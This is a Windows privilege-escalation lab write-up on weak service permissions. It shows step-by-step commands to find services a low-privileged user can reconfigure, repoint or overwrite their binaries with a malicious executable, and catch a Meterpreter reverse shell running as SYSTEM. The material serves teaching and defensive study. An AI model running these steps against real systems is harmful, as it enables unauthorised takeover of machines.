 # Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code title="attacker@victim" %}
```text
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode %}

Below indicates that the user `mantvydas` has full access to the service:

![](../../.gitbook/assets/annotation-2019-05-21-205403.png)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code title="attacker@victim" %}
```text
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-205633.png)

Let's fire up a multihandler in mfsconsole:

{% code title="attacker@kali" %}
```text
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

...and start the vulnerable service:

{% code title="attacker@victim" %}
```text
.\sc.exe start evilsvc
```
{% endcode %}

..and enjoy the meterpreter session:

![](../../.gitbook/assets/annotation-2019-05-21-210027.png)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code title="attacker@kali" %}
```text
run post/windows/manage/migrate
```
{% endcode %}

Even though the service failed, the session was migrated and saved:

![](../../.gitbook/assets/annotation-2019-05-21-210541-1.png)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code title="attacker@victim" %}
```text
sc.exe qc evilsvc
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-210916.png)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for \(M\)odify or \(F\)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code title="attacker@victim" %}
```text
icacls C:\service.exe
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211128.png)

Since c:\service.exe is \(M\)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code title="attacker@victim" %}
```text
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211232.png)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](../../.gitbook/assets/annotation-2019-05-21-211349.png)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](../../.gitbook/assets/annotation-2019-05-21-212438.png)

